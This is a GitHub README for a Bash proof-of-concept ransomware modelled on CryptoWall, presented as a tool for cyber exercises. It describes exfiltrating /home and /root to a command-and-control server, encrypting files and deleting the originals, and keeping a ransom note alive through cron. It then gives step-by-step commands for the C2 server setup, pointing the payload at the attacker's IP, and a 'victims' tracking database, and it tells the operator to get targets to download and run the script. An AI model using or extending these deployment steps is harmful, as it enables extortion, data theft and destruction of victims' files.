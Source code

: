 # Bash Ransomware

## Synopsis
 Simple Bash POC cryptoware that is modeled after CryptoWall 3.0/4.0

## Requirements
 - openssl
 - jquery
 - mysql
 - php 5 (php5-mysql)
 - apache2 

## Features
 - Secure Comunications over HTTPS to the C2 
 - Data Exfil from the target (key, /home/, /root) - Based on Chimera Ransomware that threatens to release private documents if ransom is not paid
 - UPDATE: 12 Dec 2015 -> Filename encryption has been added (Reference: Talos CW 4.0 Report)
 - File Encryption based on a set of defined file extensions, should encrypt files in '/' and encrypt mount points (USB, NFS, etc.)

## Feature Requests
 - Unique RSA key-pair per victim
 - Move DB settings into a common.php file and refer to that file in each of the scripts (One place to edit instead of numerous places)
 - More features will go here...

## Notes
 - Python and C versions of the BashCrypt are currently in development and should be released in the near future
 - Windows executable and powershell versions are also in development
 - You may notice that the configuration is insecure (e.g. - no db password, processes running as root, etc.). This is just for testing purposes in my dev environment. If you use this in an exercise, you will want to follow best practices to secure the C2 server
 - The codebase uses newer versions of software, like PHP. You may run into environments with older versions of PHP that do not support some of the built-in PHP functions. In this case, you will have to modify the code. Specifically, I ran into a PHP version < 5.2 and the DateTime function. To resolve this, I used srtotime("now") to get the Linux Epoch time and the date function, date('Y-m-d H:i:s'), to resolve this. To resolve this, you can use something similar to the following: date('Y-m-d H:i:s', strotime("now"));

## What to do on the server-side
 - > Configure your comms over HTTPS
 - > Sample certs are in the sample_apache_conf directory
 - $ openssl genrsa -des3 -passout pass:neveruseinsecurepasswords -out server.pass.key 4096
 - $ openssl rsa -passin pass:neveruseinsecurepasswords -in server.pass.key -out server.key 
 - $ openssl req -new -key server.key -out server.csr
 - $ openssl x509 -req -days 4096 -in server.csr  -signkey server.key -out server.crt
 - $ chmod 600 server.*
 - $ mkdir /etc/ssl/certs/
 - $ mv server.key /etc/ssl/certs/
 - $ mv server.crt /etc/ssl/certs/
 - > Use the sample apache SSL and Default configurations in sample_apache_conf as a guide
 - > Then configure your apache to redirect HTTP traffic to HTTPS
 - > Enable SSL
 - $ a2enmod ssl
 - $ servive apache2 restart

 - > Start Crypto Setup
 - $ openssl genrsa -out priv.pem 4096
 - $ openssl rsa -pubout -in priv.pem -out pub.pem
 - $ mkdir -p /var/www/html/downloads
 - $ cp pub.pem /var/www/html/downloads/
 - > Modify crypto.sh and replace the IP with your web server's IP/URL
 - $ sed -i 's/192\.168\.1\.132/YYY\.YYY\.YYY\.YYY/g' crypto.sh # Where YYY.YYY.YYY.YYY is your IP
     OR
 - $ sed -i 's/192\.168\.1\.132/www\.yourdomain\.com/g' crypto.sh
 - $ cp crypto.sh /var/www/html/downloads/
 - > Copy all of the ransomware files to /var/www/html
 - > You should have all of the php files in the root of your web dir (/var/www/html/)
 - > You should also have /var/www/html/images/ and /var/www/html/scripts/
 - $ cd /var/www/html/
 - > Modify admin.php, admin_query.php, decrypt.php, query.php, count.php, and target.php with your database information
 - $ chown -R www-data:root /var/www/html/
 - > Next, create the database for storing the data
 - $ mysql -u [user] -p
 - $ create database victims;
 - $ use victims;
 - $ create table target_list (id int(6) unsigned auto_increment primary key, unique_id varchar(16) not null, target_ip varchar(30), file_count int not null, curr_time timestamp not null, exp_time timestamp not null, time_expired bool not null, paid bool not null, paid_count timestamp not null);
 - $ exit

## What to do on the client-side
 - Get target to download the file and execute or if you have have access to the system, download it directly
 - $ chmod 755 crypto.sh
 - $ ./crypto.sh &

## What it does
 - Downloads the public key from our server 
 - Generates a key file on the target
 - Loops through the system for files with the defined extensions and Uses AES-256 to encrypt the files on the system using the generated key
 - Deletes the original file, leaving only the encrypted file
 - The key file is then encrypted using the public key (RSA-4096)
 - Prints a ransom message and then persists that message through cron
 - In each dir, an INSTRUCTIONS.txt file is created and contains the ransome message
 - Links to a web page where the user can see an active countdown of the time that is left before key deletion

## Acknowledgements/Contributors
  - Special thanks to zmallen and his lollocker (https://github.com/zmallen/lollocker)
  - lollocker served as the inspiration for this project
  - CryptoWall message text used came from https://www.pcrisk.com/removal-guides/7844-cryptowall-virus

## Sources
  - Excellent CryptoWall 3.0 Writeup: http://blog.brillantit.com/?p=15
  - CryptoWall 3.0 Writeup: http://www.sentinelone.com/blog/anatomy-of-cryptowall-3-0-a-look-inside-ransomwares-tactics/
  - Chimera Ransomware: https://threatpost.com/chimera-ransomware-promises-to-publish-encrypted-data-online/115293/
  - CryptoWall 4.0: http://securityaffairs.co/wordpress/41718/cyber-crime/cryptowall-4-0-released.html
  - CryptoWall 4.0 DECRYPT.html: http://www.bleepstatic.com/images/news/ransomware/cryptowall/v4/note-part-1.jpg
  - Talos CryptoWall 4.0 Report: http://blog.talosintel.com/2015/12/cryptowall-4.html

## WARNING 
  - Use this tool at your own risk. Author is not responsible or liable if you damage your own system or others. Follow all local, state, federal, and international laws as it pertains to your geographic location. Do NOT use this tool maliciously as it is being released for educational purposes. This tools intended use is in cyber exercises or demonstrations of adversarial tools.

## Screenshots

   - Infected: <br />
   ![Infected](/screenshots/infected.jpg?raw=true "Infected") <br />
   - Encrypted Filenames: <br />
   ![Filenames1](/screenshots/filename_encrypt.jpg?raw=true "Filenames1") <br />
   - Decrypted Filenames: <br />
   ![Filenames2](/screenshots/filename_decrypt.jpg?raw=true "Filenames2") <br />
   - Instructions: <br />
   ![Instructions 1](/screenshots/INSTRUCTIONS_1.jpg?raw=true "Instructions 1") <br />
   ![Instructions 2](/screenshots/INSTRUCTIONS_2.jpg?raw=true "Instructions 2") <br />
   - Decryption Page: <br />
   ![Decrypt](/screenshots/decrypt_page.jpg?raw=true "Decrypt") <br />
   - Countdown: <br />
   ![Countdown](/screenshots/time_countdown.jpg?raw=true "Countdown") <br />
   - Admin: <br />
   ![Admin](/screenshots/admin_portal.jpg?raw=true "Admin") <br />
   - Payment (Time Remaining): <br />
   ![Payment1](/screenshots/payment1.jpg?raw=true "Payment1") <br />
   - Payment (Time Expired): <br />
   ![Payment2](/screenshots/payment2.jpg?raw=true "Payment2") <br />
   - After Payment (2 Hour Wait): <br />
   ![AfterPayment1](/screenshots/Decryption_After_Payment_1.jpg?raw=true "AfterPayment1") <br />
   - After Payment (Downloads Available): <br />
   ![AfterPayment2](/screenshots/Decryption_After_Payment_2.jpg?raw=true "AfterPayment2") <br />
